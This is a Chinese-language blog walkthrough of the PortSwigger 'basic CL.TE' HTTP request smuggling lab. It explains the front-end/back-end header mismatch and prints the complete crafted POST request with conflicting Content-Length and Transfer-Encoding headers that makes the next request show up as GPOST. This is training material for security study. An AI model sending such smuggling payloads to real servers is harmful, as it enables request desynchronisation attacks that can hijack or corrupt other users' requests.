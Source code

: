 ```yaml
---
layout: post
title: "basic CL.TE vulnerability"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_HTTP_Request_Smuggling
author: ""
tags: ['PortSwigger_Lab', 'HTTP_Request_Smuggling']
---
```




# basic CL.TE vulnerability


知識:
https://www.freebuf.com/articles/web/334057.html
https://www.jianshu.com/p/b4f46e5a37ac



This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.


本實驗涉及前端和後端服務器，前端服務器不支持分塊編碼。 前端服務器拒絕不使用 GET 或 POST 方法的請求。

解決實驗室，偷偷向後端服務器發送一個請求，使後端服務器處理的下一個請求出現使用方法`GPOST`。




#### Tip

Manually fixing the length fields in request smuggling attacks can be tricky. Our [HTTP Request Smuggler](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn#demo) Burp extension was designed to help. You can install it via the BApp Store.

在請求走私攻擊中手動修復長度字段可能很棘手。 我們的 [HTTP Request Smuggler](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn#demo) Burp 擴展旨在提供幫助。 您可以通過 BApp Store 安裝它。




#### Note

This lab is designed to demonstrate the basic concepts behind [HTTP request smuggling](https://portswigger.net/web-security/request-smuggling). If you keep following our [learning materials](https://portswigger.net/web-security/request-smuggling), we've got plenty more labs that teach you how to exploit these vulnerabilities for some high-severity attacks.



本實驗旨在演示 [HTTP 請求走私](https://portswigger.net/web-security/request-smuggling) 背後的基本概念。 如果您繼續關注我們的 [學習資料](https://portswigger.net/web-security/request-smuggling)，我們還有更多的實驗室可以教您如何利用這些漏洞進行一些高嚴重性攻擊。



打開BP 抓首頁

打開history可以看到get 請求:
```
https://0ae500fe0478d9e8c096c3b900cb00b6.web-security-academy.net/
```


根據提示
前端伺服器 proxy 可以接受 get 和 post 請求

1.所以我們把 get 改成 post，因為這樣才能加上data 

2.刪掉user-agent 以下的header 

3.加上 header
```
Connection: keep-alive
確保為上一次TCP的連線
(我這題刪掉這個也可以成功)

(我猜這裡使為了保持連線，因為一般大站，會有無數個使用者發起TCP，如果你不用keep-alive，可能下次連線你就得不到，而是其他人被加上走私資料)


Content-Type: application/x-www-form-urlencoded
定義post form 資料


Content-Length: 6
定義CL資料長度6

Transfer-Encoding: chunked
定義TE資料使用chunked

```


最後設置走私包data
```http
POST / HTTP/1.1
Host: 0ae500fe0478d9e8c096c3b900cb00b6.web-security-academy.net
Cookie: session=33QA9vtzcsDYQeQCvYB1QgxIdzzTLl1V
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64;


Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```


這題是 前端 proxy 可以接受 CL
傳過來的header 說資料有6 bytes

實際上會有換行符號 
```
0\r\n
\r\n
G
```
剛好6個字元 (當然你定義資料長度6以上 以上也會成功送出)


proxy拿到資料後，傳給server


後端server 可以接受 TE

但 chunk 的資料長度定義為0，所以server 接收到空資料

此時G 還卡在server 的記憶體中，如果有下一筆get 或 post 請求
就會被擠在 http header 最開頭。

例如:
```http
GPOST / HTTP/1.1
Host: 0ae500fe0478d9e8c096c3b900cb00b6.web-security-academy.net
Cookie: session=33QA9vtzcsDYQeQCvYB1QgxIdzzTLl1V
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64;
.....

////////////////////////


GGET / HTTP/1.1
Host: 0ae500fe0478d9e8c096c3b900cb00b6.web-security-academy.net
Cookie: session=33QA9vtzcsDYQeQCvYB1QgxIdzzTLl1V
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64;
.....

```


所以再送一次post 就會成功。
